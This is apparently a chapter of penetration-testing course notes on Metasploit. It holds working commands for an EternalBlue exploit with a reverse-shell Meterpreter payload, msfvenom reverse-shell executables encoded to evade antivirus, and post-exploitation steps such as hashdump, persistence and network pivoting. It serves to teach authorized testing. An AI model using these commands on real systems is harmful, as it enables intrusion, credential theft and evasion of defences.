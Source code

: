 # 📘 Chapter 9b – Metasploit Exploitation (Advanced & Post-Exploitation)

---

## 🔹 7. Exploitation Example: EternalBlue (MS17-010)

1. Confirm vulnerability:
   ```bash
   nmap --script smb-vuln-ms17-010 -p445 <target>
   ```

2. Exploit with MSF:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS <target-ip>
   set LHOST <attacker-ip>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   exploit
   ```

3. Get Meterpreter session → run `sysinfo`, `getuid`, etc.

---

## 🔹 8. Adding a New Module

- Place Ruby module in `~/.msf4/modules/`
- Follow module skeleton (name, description, CVE, targets).
- Implement exploit code in `exploit` method.
- Reload with `reload_all`.

---

## 🔹 9. Creating a Malicious File with `msfvenom`

Generate Windows payload:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe -o shell.exe
```

Encode to bypass AV:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=... LPORT=... -e x86/shikata_ga_nai -i 5 -f exe -o shell_enc.exe
```

---

## 🔹 10. Using `msfvenom` for Local/Physical Exploitation

- USB-delivered payloads  
- Office macro payloads  
- DLL injection techniques  

---

## 🔹 11. Post-Exploitation with Meterpreter

Examples:
```bash
sysinfo
getuid
ps
migrate <pid>
hashdump
search -f *.docx
run persistence -h
run autoroute -s 10.10.10.0/24
```

---

## 🔹 12. Evading Detection with Encoders & Evasion Modules

- Encoders: e.g., `x86/shikata_ga_nai`  
- Limited effectiveness vs modern AV  

---

## 🔹 13. Reporting & Ethics

- Document methodology, findings, proof of exploit.  
- Provide remediation advice.  
- Follow responsible disclosure practices.  

---

## 🔹 14. Troubleshooting & Tips

- Check options (RHOST vs RHOSTS).  
- Match payload architecture.  
- Use `VERBOSE true`.  
- Upgrade shell to Meterpreter with `sessions -u`.  

---

## ✅ Key Takeaways

- Metasploit = modular exploitation framework.  
- Meterpreter = stealthy, powerful payload.  
- msfvenom = generate payloads for multiple platforms.  
- Ethics & legality: only in labs or with explicit permission.  

---

## 🔗 Quick Reference

```bash
msfconsole
search <term>
use <module>
show options
set <option> <value>
exploit
db_nmap -sV -A <network>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=4444 -f exe -o shell.exe
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
exploit -j
sessions -l
sessions -i <id>
```
